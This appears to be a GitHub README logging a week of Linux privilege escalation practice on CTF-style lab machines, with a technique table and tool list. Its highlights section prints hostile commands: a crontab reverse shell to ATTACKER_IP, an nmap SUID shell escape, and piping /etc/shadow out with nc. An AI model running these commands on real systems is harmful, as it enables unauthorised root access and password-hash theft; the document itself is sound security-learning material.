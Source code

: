# 🧠 HackMalayali – Linux Privilege Escalation

This week focused entirely on **Linux privilege escalation** using real CTF-style boxes and hands-on tools.

> ✅ Rooted multiple machines  
> ⚙️ Gained deep understanding of privilege escalation  
> 🛠 Built a real-world hacker workflow  


## 🔥 Week Overview

| Day | Focus | Key Techniques | Rooted? |
|-----|-------|----------------|---------|
| Day 1 | Manual Enumeration | `uname`, `id`, `ifconfig`, `/etc/passwd` | ✅ |
| Day 2 | Writable files & simple SUID | `find`, `nano`, `nmap` | ✅ |
| Day 3 | Process monitoring | `pspy`, `awk`, reverse shell injection | ✅ |
| Day 4 | Cronjob injection | `at`, `base64`, shadow file read | ✅ |
| Day 5 | Manual exploitation + review | Scheduled tasks & script abuse | ✅ |
| Day 6 | Final privesc test | Enumeration + SUID + `getcap` | ✅ |
| Day 7 | Capability abuse & wrap-up | `cap_net_bind_service`, `find`, fallback hunting | ✅ |


## 🔧 Tools Used

- 🔍 `find` – discover writable or SUID files
- 🕵️ `pspy` – watch real-time cron jobs & scheduled tasks
- 📡 `nmap`, `nc` – local port and network analysis
- ✍️ `nano`, `awk`, `at`, `crontab` – system commands & cron injection
- 🔓 `getcap` – capability abuse
- 🐚 `bash`, `python`, `perl` – reverse shell tricks
- 📁 `base64`, `/etc/shadow` – reading protected files


## 📁 Root Access Highlights

### ✅ Reverse Shell via Cronjob
```bash
echo '* * * * * root bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"' >> /etc/crontab
```

### ✅ SUID `nmap` Privilege Escalation
```bash
nmap --interactive
!sh
```

### ✅ `pspy` Catches Task Running Every 60 Seconds
```bash
/tmp/update.sh  # Writable by low-priv user
```

### ✅ Read `/etc/shadow` via `base64`
```bash
base64 /etc/shadow | nc ATTACKER_IP 4444
```


## 🧠 What I Learned

- Enumeration is **everything**
- SUID and cron jobs are **root goldmines**
- Tools like `pspy` and `getcap` reveal **hidden misconfigurations**
- Hands-on labs = fastest way to learn real hacking


## 📅 Next Up: Week 3

Windows Privilege Escalation:
- Local exploits
- Service abuse
- Registry persistence
- PowerShell automation


### 📌 Author
**Sanin (HackMalayali)**  
🎥 YouTube: [HackMalayali](https://youtube.com/@hackmalayali)
📂 GitHub: [github.com/saninzx](https://github.com/saninzx)